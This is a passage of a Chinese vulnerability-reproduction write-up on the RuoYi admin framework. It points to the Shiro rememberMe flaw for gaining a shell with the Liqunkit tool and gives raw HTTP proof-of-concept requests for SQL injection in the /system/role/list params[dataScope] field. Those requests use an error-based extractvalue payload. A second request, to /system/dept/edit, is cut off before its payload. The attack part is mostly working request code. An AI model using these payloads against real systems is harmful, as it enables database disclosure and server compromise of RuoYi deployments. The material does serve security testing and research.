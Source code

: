 若依默认使用shiro组件，所以可以试试shiro经典的rememberMe漏洞来getshell。  
### 漏洞复现  
  
直接使用Liqunkit工具梭哈![](https://mmbiz.qpic.cn/mmbiz_png/42JicKqUklyhTTKiad38Hia6rB9VSXB1XwU2kY5EyVuFaAwiab7uIt6sE9xSGDXZUeEYib56DZoiaTRG5eOV0T8PgfcA/640?wx_fmt=png&from=appmsg "")  
  
## 若依后台存在多处sql注入漏洞  
### 漏洞简介  
  
若依后台存在多个SQL注入点  
### 漏洞复现  
  
进入后台后，拦截角色管理页面的请求包![](https://mmbiz.qpic.cn/mmbiz_png/42JicKqUklyhTTKiad38Hia6rB9VSXB1XwUdyqicptG3zLSaMXKLJAcCMDVXr0e0e34kAOw0xZeic8vvRV4aqCr17Gg/640?wx_fmt=png&from=appmsg "")  
  
POC：  
```
POST /system/role/list HTTP/1.1
Host: 127.0.0.1
Content-Length: 179
sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/system/role
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: o0At_2132_saltkey=JW6Gt2hb; o0At_2132_lastvisit=1691240426; o0At_2132_ulastactivity=2db4EUfD9WS50eLvnip%2B9TxK2ZhcO65vPL0dA6sPVF8AQSBMa6Qn; JSESSIONID=cfcf2d1f-f180-46cf-98bb-5eacc4206014
Connection: close

pageSize=&pageNum=&orderByColumn=&isAsc=&roleName=&roleKey=&status=&params[beginTime]=&params[endTime]=&params[dataScope]=and extractvalue(1,concat(0x7e,(select database()),0x7e))
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/42JicKqUklyhTTKiad38Hia6rB9VSXB1XwUkkfXTdYVgquRC2iaBwK6b89Gc2rY2KCiaZl1Up8diciajvvTJ62oK9JPfA/640?wx_fmt=png&from=appmsg "")  
  
第二个sql注入点：角色编辑接口  
POC:  
```
POST /system/dept/edit HTTP/1.1
Host: 127.0.0.1
Content-Length: 111
sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
```